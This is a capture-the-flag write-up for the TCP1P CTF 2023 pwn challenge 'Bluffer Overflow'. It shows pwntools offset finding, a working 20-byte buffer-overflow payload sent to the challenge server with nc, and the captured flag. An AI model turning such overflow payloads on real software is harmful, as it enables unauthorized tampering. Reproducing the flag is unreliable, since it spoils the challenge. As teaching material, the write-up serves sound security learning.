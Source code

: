 # Bluffer Overflow

## Description

> Maybe it's your first time pwning? Can you overwrite the variable?
>
> nc ctf.tcp1p.com 17027
>
> Attachment: dist.zip

## Flag

TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}

## Solution

- It is required to set `5134160` (`PWN`) to `buf2`
- There is Buffer Overflow vulnerability so using it

Checking what is `5134160`:

```python
>>> from pwn import *
>>> p32(5134160)
b'PWN\x00'
```

Checking offset for from `buff` to `buff2`:

```python
>>> cyclic(30)
b'aaaabaaacaaadaaaeaaafaaagaaaha'
```

```console
root@kali:~/ctf/TCP1PCTF_2023/web/Bypassssss# nc ctf.tcp1p.com 17027
Can you get the exact value to print the flag?
Input: aaaabaaacaaadaaaeaaafaaagaaaha
Too high!


Output : aaaabaaacaaadaaaeaaafaaagaaaha, Value : 1633771878
```

```python
>>> p32(1633771878)
b'faaa'
>>> cyclic_find('faaa')
20
```

offset is 20.

Pwned:

```console
root@kali:~/ctf/TCP1PCTF_2023/pwn/Bluffer_Overflow# (python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"PWN\x00")'; cat) | nc ctf.tcp1p.com 17027
Can you get the exact value to print the flag?
Input:
Congrats, You got the right value!
TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}
Output : AAAAAAAAAAAAAAAAAAAAPWN, Value : 5134160
```
